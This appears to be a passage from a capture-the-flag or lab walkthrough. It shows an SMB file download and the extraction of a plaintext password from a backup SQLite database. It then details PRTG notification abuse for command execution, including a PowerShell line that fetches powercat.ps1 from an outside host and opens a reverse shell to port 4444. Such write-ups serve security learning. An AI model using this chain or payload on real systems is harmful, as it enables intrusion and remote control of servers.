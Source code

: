 ```
Enter WORKGROUP\corn's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 02:19:49 2020
  ..                                  D        0  Thu Jul  9 02:19:49 2020
  dev06.zip                           A    16919  Thu Jul  9 02:19:50 2020

		7863807 blocks of size 4096. 3610817 blocks available
smb: \> get dev06.zip 
getting file \dev06.zip of size 16919 as dev06.zip (43.5 KiloBytes/sec) (average 43.5 KiloBytes/sec)
```

### BACKUPS
Inside the zip file was a backup of a web application. Inside the directory there is a sqlite3 file which we can take a look in for passwords using `sqlitebrowser`
```
sqlitebrowser dev06/db.sqlite3

ID   USER     PASSWORD
1	django	Se7vmMqP0al
```
With this password we can loginto the PRTGADMIN with the credentials `prtgadmin:Se7vmMqP0al`
### PRTGADMIN

I spent a whole lot of time on this, trying different exploits and payload. Literally must have been about 2 hours on this in total.

But alas, the working process was as follows:
```
head to /myaccount.htm?tabid=2

click on the "Ticket Notification" to edit the notification

Scroll down to the "Execute Program" part and set the "Program File" to "Demo exe notification - outfile.ps1"

Add the paramter "powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.0.64/powercat.ps1');powercat -c 10.10.0.64 -p 4444 -e cmd"

Click save
```
Now with both our listeners running we can execute the payload by doing this:
```
head to /myaccount.htm?tabid=2 if not already there

click on the clipboard on the far right of the "Ticket Notification" cell

Click on the "Send test notification" button

And now it will execute the payload and give us a shell.
```
## OUTDATED

